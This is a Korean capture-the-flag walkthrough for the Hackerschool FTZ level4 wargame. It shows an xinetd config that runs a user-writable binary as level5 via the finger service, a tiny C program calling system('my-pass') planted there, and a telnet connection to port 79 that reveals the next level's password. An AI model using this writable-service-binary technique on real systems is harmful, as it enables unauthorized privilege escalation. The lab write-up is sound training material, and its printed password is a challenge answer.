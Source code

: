```bash
[level4@ftz level4]$ cat hint


누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!
```
~~누구냐!!~~  
`/etc/xinetd.d/` 디렉토리는 네트웍 접근 제어를 담당하는 파일이 있는 곳입니다.

```bash
[level4@ftz level4]$ ls /etc/xinetd.d -l
total 80
-r--r--r--    1 root     level4        171 Sep 10  2011 backdoor
-rw-r--r--    1 root     root          560 Dec 19  2007 chargen
-rw-r--r--    1 root     root          580 Dec 19  2007 chargen-udp
-rw-r--r--    1 root     root          417 Dec 19  2007 daytime
-rw-r--r--    1 root     root          437 Dec 19  2007 daytime-udp
-rw-r--r--    1 root     root          339 Dec 19  2007 echo
-rw-r--r--    1 root     root          358 Dec 19  2007 echo-udp
-rw-r--r--    1 root     root          317 Dec 19  2007 finger
-rw-r--r--    1 root     root          273 Dec 19  2007 ntalk
-rw-r--r--    1 root     root          359 Dec 19  2007 rexec
-rw-r--r--    1 root     root          376 Dec 19  2007 rlogin
-rw-r--r--    1 root     root          429 Dec 19  2007 rsh
-rw-r--r--    1 root     root          317 Dec 19  2007 rsync
-rw-r--r--    1 root     root          310 Dec 19  2007 servers
-rw-r--r--    1 root     root          312 Dec 19  2007 services
-rw-r--r--    1 root     root          406 Dec 19  2007 sgi_fam
-rw-r--r--    1 root     root          261 Dec 19  2007 talk
-rw-r--r--    1 root     root          305 Sep 10  2011 telnet
-rw-r--r--    1 root     root          495 Dec 19  2007 time
-rw-r--r--    1 root     root          515 Dec 19  2007 time-udp
```
여기에 backdoor라는 파일이 있다. 읽을 수 있으니 열어보면
```bash
[level4@ftz level4]$ cat /etc/xinetd.d/backdoor
service finger
{
        disable = no
        flags           = REUSE
        socket_type     = stream
        wait            = no
        user            = level5
        server          = /home/level4/tmp/backdoor
        log_on_failure  += USERID
}
```
이렇게 나온다. 뭔지는 잘 모르더라도 ~/tmp/backdoor 파일에 무언가가 있음을 짐작할 수 있고, 이것에 level5권한으로 실행 된다는 느낌이 든다.
그리고 서비스는 `finger`라는 것을 알 수 있다.

만약에 backdoor라는 파일에 my-pass를 실행하는 코드가 있다면 어떻게 될까?

```c
// backdoor.c

#include <stdio.h>

int main() {
	system("my-pass");
	return 0;
}
```
```bash
$ gcc backdoor.c -o backdoor
$ telnet localhost 79
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.

Level5 Password is "what is your name?".

Connection closed by foreign host.

```

level5의 패스워드는 `what is your name?`이다.

